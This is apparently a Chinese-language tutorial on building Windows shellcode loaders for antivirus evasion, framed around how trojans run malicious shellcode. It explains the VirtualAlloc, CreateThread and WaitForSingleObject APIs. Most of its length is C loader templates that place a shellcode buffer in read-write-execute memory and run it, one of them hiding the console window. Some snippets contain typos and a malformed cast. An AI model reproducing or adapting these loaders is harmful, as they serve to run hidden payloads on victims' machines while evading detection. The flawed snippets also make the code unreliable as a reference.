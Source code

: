 #### 前言：

shellcode加载器是最常用的免杀方式，其中的原理也大相径庭，及开辟空间，注入shellcode，执行线程。并且随着当前各种编程语言的发展，拥有了各种加载shellcode的方式，但是无论怎样，大都基都会调用windows的底层api函数`VirualAlloc()`来开辟内存空间。

**本文涉及三个windows api函数**

#### VirtualAlloc()函数

`VirtualAlloc()`函数是windows的api函数，它包含在windows系统的Kernel32.dll文件中。编程时只需要直接调用即可，不需要在进行下载；VirtualAlloc()函数通常用来分配大块的内存，并且VirtualAlloc()开辟的内存空间为虚拟内存

```
VirtualAlloc(LPVOID ipAddress,DWORD dwSize,DWORD flAllocationType,DWORD,flProtect);
/*
作用:
    该函数的功能时在调用进程的虚地址空间,预提交或者提交一部分页（简单点来说就是分配内存空间）
参数:
    LPVOID ipAddres 需要分配的内存区域的地址
    DWORD dwSize 分配的大小
    DWORD flAllocationType 分配的类型
    DWORD flProtect 该内存的初始保护属性
返回值:
    调用成功,返回分配的首地址;调用失败,返回NULL
*/
```

#### CreateThread()函数

`CreateThread()`函数是windows的api函数，用于创建一个线程以在调用进程的虚拟地址空间执行

```
HANDLE CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes, 
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    _drv_aliasesMem LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);
/*
参数:
    lpThreadAttributes 指向SECURITY_ATTRIBUTES结构的指针,用于定义新线程的安全属性,一般设置为NULL
    dwStackSize 分配以字节数表示的线程堆栈的大小,默认值为0
    lpStartAddress 指向一个线程函数地址。每个线程都有自己的线程函数,线程函数是线程执行的代码
    lpParameter 传递给线程函数的参数
    dwCreationFlags 表示创建线程的运行状态,其中CREATE_SUSPEND表示挂起当前创建的线程,而0表示理解执行当前创建的线程
    lpThreadID 返回新创建的线程的ID编号
返回值:
    如果函数调用成功,则返回新线程的语柄,调用WaitForSingleObject函数等待所创建线程的运行结束
*/
```

#### WaitForSingleObject()函数

`WaitForSingleObject()`函数用于检测hHandle时间的信号状态，在某一线程种调用该函数，线程暂时挂起，如果在观其的DwMillisecond毫秒内，线程所等待的对象变为有信号状态，则函数立即返回；如果时间已经到了DwMilliseconds毫秒，但是hHandle所指向的对象还没有变成有信号状态，函数照样返回。

```
DWORD WaitForSingleObject(
    HANDLE hHandle,
    DWORD DwMilliseconds
);
/*
参数:
    hHandle 指定对象或时间的语柄
    dwMilliseconds 等待时间，以毫秒为单位，当超过等待时间时，此函数返回。如果参数设置为0，则该函数立即返回；如果设置为INFINITE，则函数一直到有信号才返回
*/
```

#### shellcode加载器原理：

木马在工作时，一般为如下流程

```
恶意shellocde代码 -> 开辟可读，可写，可执行的内存空间 -> 执行线程
```

#### C代码shellcode加载器

```
#include<stdio.h>
#include<windows.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"") //防止运行时打开黑窗口
int main(){
    unsigned char shellcode[] = ""; //这里定义无符号的字符数组用来存储16进制的shellcode
    LPVOID p = VirtualAlloc(0,sizeof(shellcode),MEM_COMMIT,PAGE_EXECUTE_READWRITE);
    /*
        LPVOID p 定义一个空指针,类似于void *
        利用VirtualAlloc()分配了一个开始地址随机的大小为sizeof(shellcode)的内存地址
        MEM_COMMIT 为指定地址提交物理内存
        PAGE_EXECUTE_READWRITE 该内存区域可以执行代码,应用程序可以读写该区域
    */
    if(p != NULL){//判断分配的内存是否为空
        ((void(*)())p)();
        /*
            void(*) 定义一个空指针
            void(*)() 定义一个空指针函数
            (void(*)())p 将空指针p强制类型转换为空指针函数
            ((void(*)())p)() 调用该函数
        */
    }
    return 0;
}
```

#### 指针函数调用加载shellcode

这里有个很深的概念，与指针有关，也是最容易混淆的

```
#include<stdio.h>
void shellcode(){
    printf("hello world!\n");
}
int main(){
    printf("%p\n",shellcode); //这里是shellcode的地址，为0x401132
    ((void(*)())(0x401132))(); //这里在进行强制类型转换为指针函数后进行调用,类似于直接调用了shellcode()
    return 0;
}
```

因为函数本质来上将就是指针，所以转来转去，其实是饶了一圈，没有实际意义，但是为什么要这样写呢？这就要比较这两种写法了

```
#include<Windows.h>
#include<stdio.h>
unsigned char shellcode[] = "";
int main(){
    ((void(*)())&shellcode)(); //此时的shellcode是存放shellcode的变量,需要找到shellcode的地址,及&shellcode
    return 0;
}
#include<Windows.h>
#include<stdio.h>
unsigned char buf[] = "";
int main(){
    void *shellcode = (void*)VirualAlloc(0,sizeof(buf),MEM_COMMIT,PAGE_EXECUTE_READWRITE);
    ((void)(*)())shellcode)(); //此时的shellcode本身就是地址,不需要&
    return 0;
}
```

第一种和第二种方式，其执行的主要方式都是找到要执行的内存地址，将放入内存shellcode强制转变为函数，然后执行该函数。其要点都是寻址

在执行第一种的时候，可能还会出现一些问题

```
执行失败，原因是内存执行地址引发冲突
```

原因是：在执行shellcode时，需要该内存区域对代码具有可读，可写，可执行的权限，而实际情况则为在该内存区域只具有可读，可写，但却没有可执行权限

上述执行方法，是定位放入shellcode内存位置，并以函数形式返回回来，最后用函数方式调用加载shellcode

#### 加载器完整过程代码

```
#inculde<stdio.h>
#include<Windows.h>
int main(int argc, char *argv[]){ //入口函数
    unsigned char buf[] = "";//获取shellcode
    int shellcode_size = sizeof(buf);// 获取shellcode长度
    DWORD dwThreadId; //定义线程ID
    HANDLE hHandle; //线程语柄
    
    char *shellcode = (char*)VirtualAlloc(
    NULL, //基地址
    shellcode_size, //shellcode大小
    MEM_COMMIT, //内存页状态
    PAGE_EXECUTE_READWRITE //定义内存页对代码可读,可写,可执行权限
    );
    //将shellcode复制到可执行的内存页种
    CopyMemory(shellcode,buf,shellcode_size); //内存空间申请
    
    hHandle = CreateThread(
        NULL,//安全描述符
        NULL,//栈的大小
        (LPTHREAD_START_ROUTINE)shellcode,//执行的函数
        NULL,//参数
        NULL,//线程标志
        &dwThreadId//线程ID
    );//创建线程
    
    WaitForSingleObject(hHandle,INFINITE);//一直等待线程执行结束
    return 0;
}
```


